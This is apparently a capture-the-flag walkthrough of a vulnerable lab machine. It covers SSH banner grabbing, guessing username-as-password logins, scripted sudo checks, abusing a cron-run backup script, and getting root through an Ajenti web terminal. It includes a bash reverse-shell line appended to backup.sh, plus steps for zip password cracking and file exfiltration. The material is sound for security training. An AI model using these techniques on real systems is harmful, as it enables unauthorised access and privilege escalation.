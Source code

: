 This one's a little messed up. There are 2 flags here user and root.

Doing a nmap scan we see there are 3 ports http/80, http/8000, ssh/22.

Now we can try to scan http/80 for something but that will give us nothing. It is on big rabbit hole. But http/8000 is ajenti login portal.

There is no way of enumerating users and passwords here so we have to exploit this using ssh port.

This requires something called banner grabbing. For that we can just try and login as any user. 

__ssh target_ip__ --> Here in the banner we see username format for different users.

```
Hi !!! THIS MESSAGE IS ONLY VISIBLE IN OUR NETWORK :) 

   ___      _        ___                    
  / __|__ _(_)_ _   | _ \_____ __ _____ _ _ 
 | (_ / _` | | ' \  |  _/ _ \ V  V / -_) '_|
  \___\__,_|_|_||_| |_| \___/\_/\_/\___|_|  
                                            

I HOPE EVERYONE KNOW THE JOINING ID CAUSE THAT IS YOUR USERNAME : ie : employee1 employee2 ... ... ... so on ;)

I already told the format of password of everyone in the yesterday's metting.

Now i have configured everything. My request is to everyone to Complete assignments on time 

btw one of my employee have sudo powers because he is my favourite 

NOTE : "This message will automatically removed after 2 days" 
                                                                - BOSS
```        
We try logging using employee1:employee1. And we're in. So probably all users have username as their password.

Also the line _one of my employee have sudo powers because he is my favourite_ is interesting.

We can write a script to login as employees and run the command __sudo -l__ and scout the output.

After running the script for sometime we get that employee64 can run sudo commands as user programmer.

Logging in as him still we can't find anything significant in all his directories. So we download pspy64 onto the server and run that to see if there are any cronjobs running in the background. 

We see that there is a script running in the background in programmer dir. So we need to login as him to access it to change it.

__sudo -u programmer /usr/bin/unshare__ --> Now we are logged as programmer so we can change the script running in the background.

```
2020/12/17 10:12:02 CMD: UID=1183 PID=3796   | /bin/bash /media/programmer/scripts/backup.sh 
```
We see that this script runs as UID=1183 which is not the UID of programmer. We can find out who it is by running a simple command.

__cat /etc/passwd | grep -e "UID=1183"__

We see that user 1183 is vanshal. so we can get a shell as vanshal if we add a bash reverse shell script to the backup.sh file and listen on another port.

__bash -i >& /dev/tcp/host_ip/port 0>&1__ --> added in backup.sh

Note: we can't use nano because it's not on this machine we have to use vim editor.

#After we get a shell we got the first flag in local.txt.

We can run python2 on this so let's start a http server and download the secret.zip file onto our system.

__python -m SimpleHTTPServer 4445__ --> Port number can be anything that's not already in use by the system.

After downloading the file we can [crack the password using john the ripper](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html).

We find that password to zip file is ___81237900___. Opening that we get a very secure password in Mypassword.txt file.

This might be the password for that ajenti login running on port 8000. And yes, it is.

___root: contents of Mypasswords.txt___

Now here on the website we see a tab saying terminal. Going to it we see we have a root terminal shell.

#We can change into the root directory and read the proof.txt

And That's it.